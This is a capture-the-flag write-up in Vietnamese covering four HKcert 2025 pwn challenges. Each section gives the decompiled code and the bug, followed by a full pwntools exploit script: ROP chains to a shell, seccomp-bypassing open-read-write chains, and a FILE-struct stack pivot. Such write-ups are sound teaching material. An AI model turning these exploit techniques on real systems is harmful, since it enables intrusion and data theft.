

# HKcert CTF 2025

## strange_rop
### Mô tả
(null)
### Tìm hiểu challenge
```(pwnvenv) ngocsinh@Sinh:/mnt/d/CTF/events/hkcert/strange_rop$ checksec pwn
[*] '/mnt/d/CTF/events/hkcert/strange_rop/pwn'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
(pwnvenv) ngocsinh@Sinh:/mnt/d/CTF/events/hkcert/strange_rop$ file pwn
pwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=00d49b7321c835d9bccfff5dab5fbeadecba6482, for GNU/Linux 3.2.0, not stripped
(pwnvenv) ngocsinh@Sinh:/mnt/d/CTF/events/hkcert/strange_rop$
```
### Phân tích
Nhìn qua có vẻ chương trình này đưa ra các phép tính cơ bản sau đó yêu cầu `user` tính toán kết quả, nếu đúng thì thực thi cái gì đó...
```
(pwnvenv) ngocsinh@Sinh:/mnt/d/CTF/events/hkcert/strange_rop$ ./pwn
Let's do some easy math problems.
0、 17 + 12 =
1、 9 + 18 =
2、 9 + 10 =
3、 2 + 5 =
4、 3 + 12 =
5、 17 + 1 =
6、 5 + 13 =
7、 14 + 17 =
8、 3 + 18 =
9、 11 + 3 =
Now, enter your answer.
Question Number:0
Result:29
Question Number:1
Result:27
Question Number:2
Result:19
Question Number:3
Result:7
Question Number:4
Result:15
Question Number:5
Result:18
Question Number:6
Result:18
Question Number:7
Result:31
Question Number:8
Result:21
Question Number:9
Result:14
Question Number:
-1
Result:0
Okay, let's check the answers.
good!
sh: 1: ababalabalabalawuwuwuuwyyyyy: not found
(pwnvenv) ngocsinh@Sinh:/mnt/d/CTF/events/hkcert/strange_rop$
```

Ở đây ta thấy trong hàm main() nó sẽ gọi hàm ```game()``` và sau đó nếu nó trả về 1 (`user` sẽ trả lời đúng tất cả các phép tính) thì nó sẽ gọi hàm ```win()```.
```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  if ( (unsigned int)game() == 1 )
    win();
  return 0;
}
```

Trong hàm ```game()```, đây là hàm mà `user` sẽ tương tác chính. Có thể thấy nó sẽ `random()` ra 10 phép toán từ 0 tới 9 sau đó yêu cầu `user` chọn `index` của câu hỏi, sau đó trả lời.
Tuy nhiên, trong lúc nhập `index` của câu hỏi thì nó chỉ check cạnh trên (> 9) nhưng không check cạnh dưới (< 0). Do đó ta có 1 lỗi `Out of bound` ở đây.

```cpp
__int64 game()
{
  unsigned int v0; // eax
  int i; // [rsp+0h] [rbp-70h]
  int j; // [rsp+4h] [rbp-6Ch]
  unsigned int v4; // [rsp+8h] [rbp-68h]
  unsigned int v5; // [rsp+Ch] [rbp-64h]
  __int64 v6[12]; // [rsp+10h] [rbp-60h] BYREF

  v6[11] = __readfsqword(0x28u);
  id = 0;
  puts("Let's do some easy math problems.");
  v0 = time(0LL);
  srand(v0);
  for ( i = 0; i <= 9; ++i )
  {
    v4 = rand() % 20;
    v5 = rand() % 20;
    printf(format, (unsigned int)id, v4, v5);
    answer[id++] = (int)(v4 + v5);
  }
  puts("Now, enter your answer.");
  while ( t <= 10 )
  {
    printf("Question Number:");
    __isoc99_scanf("%d", &id);
    if ( id > 9 ) //Out of bound
    {
      puts("\nWhat do you want to do!????");
      exit(0x1BF52);
    }
    printf("Result:");
    __isoc99_scanf("%lld", &v6[id]);
    ++t;
  }
  puts("Okay, let's check the answers.");
  for ( j = 0; j <= 9; ++j )
  {
    if ( answer[j] != v6[j] )
    {
      printf("Number %d is wrong! Can you get it right?", (unsigned int)j);
      return 0LL;
    }
  }
  return 1LL;
}
```

Còn trong hàm `win()`, khi gọi nó sẽ thực hiện `system("ababalabalabalawuwuwuuwyyyyy")`. Tuy nhiên nó không có ý nghĩa gì cả.
```cpp
int win()
{
  puts("good!");
  return system("ababalabalabalawuwuwuuwyyyyy");
}
```

### Ý tưởng khai thác
Vì result của `user` được lưu ở trên `stack` và bị chặn cạnh trên nên hướng `overwrite saved RIP` khó khả thi. Thay vào đó, mình sẽ thử nhập các index < 0 xem có `trigger return` nào không.

```
(pwnvenv) ngocsinh@Sinh:/mnt/d/CTF/events/hkcert/strange_rop$ ./pwn
Let's do some easy math problems.
0、 16 + 18 =
1、 7 + 18 =
2、 18 + 9 =
3、 19 + 19 =
4、 19 + 14 =
5、 15 + 14 =
6、 8 + 11 =
7、 11 + 7 =
8、 15 + 5 =
9、 7 + 12 =
Now, enter your answer.
Question Number:-1
Result:0
Question Number:-2
Result:0
Question Number:-3
Result:0
Segmentation fault (core dumped)
(pwnvenv) ngocsinh@Sinh:/mnt/d/CTF/events/hkcert/strange_rop$
```

Có thể thấy rằng có `trigger return` khi ta nhập `index` `-3`. Do đó mình sẽ lợi dụng bug này để `ROP chain` và `get shell`.

### Script khai thác
```python
#!/usr/bin/env python3
from pwn import *

context.binary = elf = ELF('./pwn', checksec=False)
libc = elf.libc

def setup():
    if args.REMOTE:
        p = remote(sys.argv[1], sys.argv[2])
    else:
        p = process(elf.path)
        context.terminal = ['tmux', 'splitw', '-h']
        if args.GDB:
            gdb.attach(p, gdbscript='''
            ''')
    
    return p

p = setup()

bin_sh = next(elf.search(b'/bin/sh\x00'))
system = elf.plt.system
pop_rdi = 0x4012f1
ret = 0x40101a

def answer(idx, val):
    p.sendlineafter(b'Question Number:', str(idx).encode())
    p.sendlineafter(b'Result:', str(val).encode())

answer(0, system)
answer(-1, ret)
answer(-2, bin_sh)
answer(-3, pop_rdi)

p.interactive()
```
### Note
Có thể thấy khi nhập `index -3`, thì khi nhập `result` của phép tính thì nó sẽ overwrite lên `saved RIP` khi run hàm `__isoc99_scanf()`.



## stop
### Mô tả
(null)
### Tìm hiểu challenge
```cmd
[*] '/mnt/d/CTF/events/hkcert/stop/pwn'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x3fe000)
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
(pwnvenv) ngocsinh@Sinh:/mnt/d/CTF/events/hkcert/stop$ file pwn
pwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-linux-x86-64.so.2, BuildID[sha1]=255d99eb11da77a76e6c6c83448bba66232ae29b, for GNU/Linux 3.2.0, not stripped
(pwnvenv) ngocsinh@Sinh:/mnt/d/CTF/events/hkcert/stop$

```
### Phân tích
```cmd
(pwnvenv) ngocsinh@Sinh:/mnt/d/CTF/events/hkcert/stop$ ./pwn
hey hey what are you doing here?
hpdeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee
I say STOP doing this!
(pwnvenv) ngocsinh@Sinh:/mnt/d/CTF/events/hkcert/stop$
```

Nhìn chung có thể thấy đây là 1 challenge với bug `buffer overflow`. Tuy nhiên nó có `seccomp` `sandbox` để giới hạn các `syscall` có thể sử dụng.

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[108]; // [rsp+0h] [rbp-70h] BYREF
  int v5; // [rsp+6Ch] [rbp-4h]

  v5 = 0;
  setbuf(stdin, 0LL);
  setbuf(_bss_start, 0LL);
  sandbox();
  puts("hey hey what are you doing here?");
  read(0, buf, 80uLL);
  puts("I say STOP doing this!");
  return read(0, buf, 0x200uLL); //bof
}
```

Nó sẽ gọi hàm `sandbox()` để thiết lập `seccomp filter`. Có thể thấy nó sẽ block 2 syscall là `execve` và `execveat`.
```cpp
__int64 sandbox()
{
  __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = seccomp_init(2147418112LL);
  seccomp_rule_add(v1, 0LL, 59LL, 0LL); // execve
  seccomp_rule_add(v1, 0LL, 322LL, 0LL); // execveat
  return seccomp_load(v1);
}
```

```cmd
(pwnvenv) ngocsinh@Sinh:/mnt/d/CTF/events/hkcert/stop$ seccomp-tools dump ./pwn
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x06 0xc000003e  if (A != ARCH_X86_64) goto 0008
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x03 0xffffffff  if (A != 0xffffffff) goto 0008
 0005: 0x15 0x02 0x00 0x0000003b  if (A == execve) goto 0008
 0006: 0x15 0x01 0x00 0x00000142  if (A == execveat) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x06 0x00 0x00 0x00000000  return KILL
(pwnvenv) ngocsinh@Sinh:/mnt/d/CTF/events/hkcert/stop$
```

Trong các gadget, vì ta có gadget `pop rbp`, và có thể overwrite `saved rbp` nên ta có thể gọi gadet bên dưới để đọc vào 1 địa chỉ bất kì. 


Ngoài ra, khi ta gọi `seccomp_load` thì giá trị của thanh ghi `rdi` sau khi hàm thực thi xong nó không thay đổi. Do đó ta có thể lợi dung nó để control thanh ghi `rdi`.


### Ý tưởng khai thác
Đầu tiên mình sẽ control thanh ghi `rdi` vào địa chỉ chứa `libc address`, sau đó gọi `puts@plt` để `leak libc` và tính `libc base address`.

Sau khi có `libc base address`, mình sẽ chain `ROP` `open read write` để `leak flag`.
### Script khai thác
```python
#!/usr/bin/env python3
from pwn import *

context.binary = elf = ELF('./pwn', checksec=False)
libc = elf.libc

def setup():
    if args.REMOTE:
        p = remote(sys.argv[1], sys.argv[2])
    else:
        p = process(elf.path)
        context.terminal = ['tmux', 'splitw', '-h']
        if args.GDB:
            # b*main+121
            gdb.attach(p, gdbscript='''
            ''')
    
    return p

p = setup()

gadget_read = 0x4012b8  # aar
control_rdi = 0x401230  # mov rax, qword ptr [rbp - 8]; mov rdi, rax; call 0x30c0; nop; leave; ret;
ret = 0x40101a  # ret;

offset = 112
p.sendlineafter(b'?', b'ksan')
p.sendlineafter(b'!', b'A' * offset + p64(0x404200 + 0x70) + p64(gadget_read))

payload = p64(elf.got.puts)
payload += p64(0x404200 + 0x100)
payload += p64(elf.plt.puts)
payload += p64(gadget_read)
payload = payload.ljust(offset, b'\x00')
payload += p64(0x404208)
payload += p64(control_rdi)

p.sendline(payload)

p.recvline()
libc.address = u64(p.recvline().strip().ljust(8, b'\x00')) - libc.sym.puts
log.info(f'Libc base: {hex(libc.address)}')

flag_addr = 0x404500 

pop_rdi = libc.address + 0x000000000010f78b
pop_rsi = libc.address + 0x0000000000110a7d
pop_rdx = libc.address + 0x00000000000b503c # pop rdx ; xor eax, eax ; pop rbx ; pop r12 ; pop r13 ; pop rbp ; ret

payload = flat(
    # read 'flag'
    b'A' * offset,
    p64(0x404200 + 0x70), # rbp
    p64(pop_rdi),
    p64(0),  # stdin
    p64(pop_rsi),
    p64(flag_addr),
    p64(pop_rdx),
    p64(0x50),
    p64(0),  # rbx
    p64(0),  # r12
    p64(0),  # r13
    p64(0x404270),  # rbp
    p64(libc.sym.read),
    
    # open
    p64(pop_rdi),
    p64(flag_addr),
    p64(pop_rsi),
    p64(0),
    p64(libc.sym.open),
    
    # read
    p64(pop_rdi),
    p64(3),
    p64(pop_rsi),
    p64(0x404600),
    p64(pop_rdx),
    p64(0x50),
    p64(0),  # rbx
    p64(0),  # r12
    p64(0),  # r13
    p64(0x404270),  # rbp
    p64(libc.sym.read),
    
    # write
    p64(pop_rdi),
    p64(1),
    p64(pop_rsi),
    p64(0x404600),
    p64(pop_rdx),
    p64(0x50),
    p64(0),  # rbx
    p64(0),  # r12
    p64(0),  # r13
    p64(0x404270),  # rbp
    p64(libc.sym.write)
)

p.sendline(payload)
p.sendline(b'flag\x00')
p.interactive()
```
## linkstart
### Mô tả
(null)
### Tìm hiểu challenge
```cmd
(pwnvenv) ngocsinh@Sinh:/mnt/d/CTF/events/hkcert/linkstart$ checksec pwn
[*] '/mnt/d/CTF/events/hkcert/linkstart/pwn'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
(pwnvenv) ngocsinh@Sinh:/mnt/d/CTF/events/hkcert/linkstart$ file pwn
pwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d048f0780fef41e563d1f3c9542b3b9a4c1351db, for GNU/Linux 3.2.0, not stripped
(pwnvenv) ngocsinh@Sinh:/mnt/d/CTF/events/hkcert/linkstart$
```
### Phân tích
Nhìn qua có vẻ đây là 1 game RPG.
```
(pwnvenv) ngocsinh@Sinh:/mnt/d/CTF/events/hkcert/linkstart$ ./pwn
login:hpde
welcome to the system!
-------------status-------------
|  User:                       |
|  hp:     20                  |
|  level:   0                  |
|Methods: Starburst Stream     |
--------------------------------
|  Host:                       |
|  hp:     30                  |
|  level:   0                  |
|Methods: Numbing Lmpact       |
--------------menu--------------
1. hacking
2. change host
3. change methods
4. exit
choice>> 1
hpde display:Blade of Exercise
Lllfang The Kobold Lord display:Golden Warhammer
use hiden methods?(1:yes/0:no):1
-------------status-------------
|  User:                       |
|  hp:     21                  |
|  level:   0                  |
|Methods: Starburst Stream     |
--------------------------------
|  Host:                       |
|  hp:      8                  |
|  level:   0                  |
|Methods: Numbing Lmpact       |
--------------menu--------------
1. hacking
2. change host
3. change methods
4. exit
choice>>
```

Mình sẽ patch các struct sau vào `IDA` cho dễ phân tích.

```c
struct Skill {
    int attack_power;    
    int defense_power;   
    char *name;              
    char *msg;               
    int hidden_buff;     
    int padding;         
};

struct Hero {
    int level;          
    int round_count;    
    int hp;             
    int power;          
    char name[64];          
    struct Skill *skill;    
};

struct Monster {
    int id;              
    int unknown;         
    int hp;              
    int power;           
    char name[64];           
    struct Skill *skill;     
};
```

Đầu khi chương tình sẽ gọi và in ra `menu`, sau đó yêu cầu `user` lựa chọn các `option` tương ứng.
```cpp
void __noreturn main_logic()
{
  int v0; // [rsp+Ch] [rbp-4h]

  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      printf("choice>> ");
      v0 = read_int();
      if ( v0 != 1 )
        break;
      attack();
    }
    switch ( v0 )
    {
      case 2:
        run_away();
        break;
      case 3:
        change_skill();
        break;
      case 4:
        exit(0);
      default:
        puts("invalid choice");
        break;
    }
  }
}
```

Ở hàm `attack()`, nó sẽ tính toán chỉ số sức mạnh và tính toán `hp` sau mỗi lượt chơi của cả `Hero` và `Monster`. Nếu `Hero` win thì sẽ qua cấp độ tiếp theo và chỉ số của cả `Hero` và `Monster` đều thay đổi.

```cpp
__int64 attack()
{
  int defense_power; // [rsp+Ch] [rbp-14h]
  int attack_power; // [rsp+10h] [rbp-10h]
  int gHero_defense; // [rsp+14h] [rbp-Ch]
  int gHero_attack; // [rsp+18h] [rbp-8h]

  ++gHero->round_count;
  ++gMonster->unknown;
  hero_recovery();
  monster_recovery();
  printf("%s display:%s\n", gHero->name, gHero->skill->msg);
  printf("%s display:%s\n", gMonster->name, gMonster->skill->msg);
  attack_power = gMonster->skill->attack_power; // attack
  defense_power = gMonster->skill->defense_power;// defense
  if ( gMonster->skill->hidden_buff && gMonster->unknown > 4 && rand() % 3 == 1 )
  {
    gMonster->unknown = 0;
    defense_power += gMonster->skill->hidden_buff;
    attack_power += gMonster->skill->hidden_buff;
  }
  gHero_attack = gHero->skill->attack_power;
  gHero_defense = gHero->skill->defense_power;
  if ( gMonster->skill->hidden_buff )
  {
    printf("use hiden methods?(1:yes/0:no):");
    if ( (unsigned int)read_int() == 1 )
    {
      gHero_defense += gHero->skill->hidden_buff;
      gHero_attack += gHero->skill->hidden_buff;
    }
  }
  if ( gHero_defense < attack_power )
    gHero->hp -= attack_power - gHero_defense;
  if ( defense_power < gHero_attack )
    gMonster->hp -= gHero_attack - defense_power;
  if ( gHero->hp <= 0 )
  {
    puts("you failed");
    gHero->hp = 0;
    release_all();
  }
  if ( gMonster->hp > 0 )
    return 1LL;
  puts("you win!");
  if ( gMonster->id == 3 )
  {
    puts("we will remember you forever!");
    commemoration();                            // up to level3 to read flag
    release_all();
  }
  puts("level up");
  level_up();
  init_monster(gMonster->id + 1);
  return 0LL;
}
```

Và khi đánh bại được `Monster` thứ 3, thì nó sẽ gọi hàm `commemoration()`. Ở trong hàm này nó sẽ `read` `buf` sau đó `read` `flag`, và vì `flag` được lưu ngay sau `buf` nên ta có thể `read` full `64 bytes` để leak được `flag`.

```cpp
__int64 commemoration()
{
  int fd; // [rsp+Ch] [rbp-B4h]
  char buf[64]; // [rsp+10h] [rbp-B0h] BYREF
  char v3[104]; // [rsp+50h] [rbp-70h] BYREF
  unsigned __int64 v4; // [rsp+B8h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  printf("what's your name:");
  read(0, buf, 64uLL);
  fd = open("/flag", 0);
  read(fd, v3, 100uLL);
  printf("I know what you want. I will remember you, %s", buf);
  return 0LL;
}
```

Tiếp theo là ở trong hàm `change_skill()`, nó sẽ yêu cầu `user` chọn `1` trong `4` `skill` có sẵn được đánh số từ `0` tới `3`. Tuy nhiên, tương tự như challenge `strange_rop` ta vẫn có lỗi `Out of bound` ở đây vì nó chỉ check cạnh trên nhưng không check cạnh dưới.
```cpp
__int64 change_skill()
{
  int i; // [rsp+8h] [rbp-8h]
  int v2; // [rsp+Ch] [rbp-4h]

  puts("you can use:");
  for ( i = 0; i <= 3; ++i )
    printf("%d: %s\n", (unsigned int)i, (*(&g_hero_kill_type + i))->name);
  printf("choice>> ");
  v2 = read_int();
  if ( v2 <= 3 )
    gHero->skill = *(&g_hero_kill_type + v2);   // out of bound
  return (unsigned int)v2;
}
```

### Ý tưởng khai thác
Đầu tiên, mình sẽ sử dụng bug `oob` ở trên để change `skill` của `Hero` vào 1 địa khác để chỉ số sức mạnh cao hơn.

Sau đó đánh bại `Monster` và nhập `64 bytes` và get `flag`.
### Script khai thác
```python
#!/usr/bin/env python3
from pwn import *

context.binary = elf = ELF('./pwn', checksec=False)
libc = elf.libc

def setup():
    if args.REMOTE:
        p = remote(sys.argv[1], sys.argv[2])
    else:
        p = process(elf.path)
        context.terminal = ['tmux', 'splitw', '-h']
        if args.GDB:
            gdb.attach(p, gdbscript='''
            ''')
    
    return p

for i in range(1, 100):
    p = setup()
    log.info(f'Login as user{i}')

    p.sendlineafter(b'login:', f'user{i}'.encode())
    p.sendlineafter(b'choice>> ', b'3')
    p.sendlineafter(b'choice>> ', f'-{i}')
    p.interactive()
```


## compress
### Mô tả
(null)
### Tìm hiểu challenge
```cmd
(pwnvenv) ngocsinh@Sinh:/mnt/d/CTF/events/hkcert/compress$ checksec pwn
[*] '/mnt/d/CTF/events/hkcert/compress/pwn'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
(pwnvenv) ngocsinh@Sinh:/mnt/d/CTF/events/hkcert/compress$ file pwn
pwn: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./libc.so, stripped
(pwnvenv) ngocsinh@Sinh:/mnt/d/CTF/events/hkcert/compress$ seccomp-tools dump ./pwn
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x05 0xc000003e  if (A != ARCH_X86_64) goto 0007
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x02 0xffffffff  if (A != 0xffffffff) goto 0007
 0005: 0x15 0x01 0x00 0x0000003b  if (A == execve) goto 0007
 0006: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0007: 0x06 0x00 0x00 0x00000000  return KILL
(pwnvenv) ngocsinh@Sinh:/mnt/d/CTF/events/hkcert/compress$
```
### Phân tích
Có thể thấy interpreter ELF được set tới `./libc.so`. Nghĩa là khi chạy `./pwn` trên cùng 1 thư mục với `./libc.so` thì chương trình sẽ sử dụng file `libc.so` thay vì libc hệ thống. Và có thể đây là `libc custom`.

Chương trình sẽ có 2 option. Và mỗi option chỉ được dùng 1 lần duy nhất.
```cpp
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  char option; // [rsp+7h] [rbp-9h] BYREF
  unsigned __int64 v4; // [rsp+8h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  init_();
  while ( 1 )
  {
    menu();
    option = 0;
    scanf("%c", &option);
    if ( option > 49 )
    {
      if ( option == 51 ) // '3'
        exit(0);
      if ( option == 50 ) // '2'
        leak_addr();
      else
LABEL_11:
        puts("invalid choice");
    }
    else
    {
      if ( option != 49 ) // '1'
        goto LABEL_11;
      sub_9F0();
    }
  }
}
```

Đầu tiên chương trình sẽ khởi tạo 1 vùng malloc có kích thước `0x40` và lưu vào `content`. Ngoài ra có thể thấy chương trình đã cấm `execve` cho nên có lẽ phải thực hiện `orw` để `get flag`.
```cpp
_QWORD *init_()
{
  ...
  v2 = 8;
  v3 = &v4;
  prctl(22, 2LL, &v2);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  alarm(0xA0u);
  chunk1 = malloc(0x40uLL);
  result = &content;
  content = chunk1;
  return result;
}
```

Option `1` cho phép nhập vào số độ dài `content` cần nhập và có ràng buộc `<= 0x20u`. Sau đó nhập vào và lưu tại `(void *)(offset + content)`.

Tuy nhiên, có thể thấy rằng ta có 1 bug ở đây vì biến `offset` được khởi tạo với `int` (4 bytes) nhưng lúc kiểm tra độ dài với ràng buộc thì chỉ xét 1 byte cuối cùng, và lúc nhập data thì độ dài lấy 2 bytes.

Do đó nếu ta nhập vào độ dài sao cho byte nhỏ nhất `<= 0x20` thì có thể bypass được ràng buộc.

```cpp
int sub_9F0()
{
  int offset; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  if ( unk_202018 )
  {
    puts("Empty");
    exit(0);
  }
  puts("Please input the offset:");
  scanf("%d", &offset);
  if ( (unsigned __int8)offset > 0x20u )
  {
    puts("Invald offset");
    exit(0);
  }
  puts("Please input the Content:");
  read(0, (void *)(offset + content), (unsigned __int16)offset);
  ++unk_202018;
  return puts(aDonedone);
}
```
Option 2 cho phép ta leak địa chỉ có content.
```cpp
_DWORD *leak_addr()
{
  _DWORD *result; // rax

  if ( check_leak_addr )
  {
    puts("Empty");
    exit(0);
  }
  puts((const char *)content);                  // leak addr
  result = &check_leak_addr;
  ++check_leak_addr;
  return result;
}
```

Tuy content mang địa chỉ của vùng nhớ `heap` nhưng trong chall này nó lại mang địa chỉ ở libc. Có thể là do `libc custom`.
```cmd
pwndbg> tel 0x728363ff6e50
00:0000│     0x728363ff6e50 (mal+912) —▸ 0x728363ff9410 ◂— 0x61 /* 'a' */
01:0008│     0x728363ff6e58 (mal+920) ◂— 0
02:0010│     0x728363ff6e60 (mal+928) —▸ 0x728363ff6e50 (mal+912) —▸ 0x728363ff9410 ◂— 0x61 /* 'a' */
03:0018│     0x728363ff6e68 (mal+936) —▸ 0x728363ff6e50 (mal+912) —▸ 0x728363ff9410 ◂— 0x61 /* 'a' */
04:0020│     0x728363ff6e70 (mal+944) ◂— 0
05:0028│     0x728363ff6e78 (mal+952) —▸ 0x602841a02030 ◂— 1
06:0030│     0x728363ff6e80 (mal+960) —▸ 0x602841c00010 ◂— 1
07:0038│     0x728363ff6e88 (mal+968) ◂— 0
```

### Ý tưởng khai thác
Vì content mang địa chỉ của libc và ta có thể tính khoảng cách và ghi tùy ý xung quanh địa chỉ đó. Do vậy mình sẽ sử dụng fsop để open read write flag (seccomp filter execve).


Mình sẽ ghi đè lên stdout FILE struct.

Tuy nhiên, để thực hiện `orw` bằng fsop, mình sẽ phải pivot `rsp` sang vùng mình kiểm soát. Và có 1 gadget hữu ích mình tìm được để hỗ trợ việc đó là:
```
   0x00007bb28bb4b51a <+34>:    mov    rdx,QWORD PTR [rdi+0x30]
   0x00007bb28bb4b51e <+38>:    mov    rsp,rdx
   0x00007bb28bb4b521 <+41>:    mov    rdx,QWORD PTR [rdi+0x38]
   0x00007bb28bb4b525 <+45>:    jmp    rdx
```

Gadget này cho phép mình pivot stack sang vùng kiểm soát sau đó jmp tới 1 địa chỉ khác (mình sẽ jmp tới ret để run ROP chain).

### Script khai thác
```python
#!/usr/bin/env python3
from pwn import *

context.binary = elf = ELF('./pwn', checksec=False)
libc = elf.libc

def setup():
    if args.REMOTE:
        p = remote(sys.argv[1], sys.argv[2])
    else:
        p = process('./pwn')
        context.terminal = ['tmux', 'splitw', '-h']
        if args.GDB:
            gdb.attach(p, gdbscript='''
            ''')
    
    return p

p = setup()

p.send(p8(50))
p.recvuntil(b'>>')

addr_leak = u64(p.recvn(6).ljust(8, b'\x00'))
libc.address = addr_leak - 0x292e50
flag = addr_leak - 0xd90
pivot_gadget = addr_leak - 0x249936

log.info(f'Leaked address: {hex(addr_leak)}')
log.info(f'Libc base address: {hex(libc.address)}')
log.info(f'Pivot gadget: {hex(pivot_gadget)}')
log.info(f'Flag.txt address: {hex(addr_leak - 0xd90)}')

p.sendlineafter(b'>>', b'1')
p.sendlineafter(b'offset:', str(-0x3300).encode())

rop = ROP(libc)
rop.open(flag, 0, 0)
rop.read(3, flag, 0x100)
rop.write(1, flag, 0x100)

payload = flat(
    b'flag\x00\x00\x00\x00',
    rop.chain()
)

payload = payload.ljust(0x240 + 0x30, b'A')
payload += p64(flag + 0x8)  # pivot to rop chain
payload += p64(libc.address + 0x4b60b) # ret
payload = payload.ljust(0x288, b'A')
payload += p64(pivot_gadget)

p.sendafter(b'Content:', payload)
p.interactive()
```

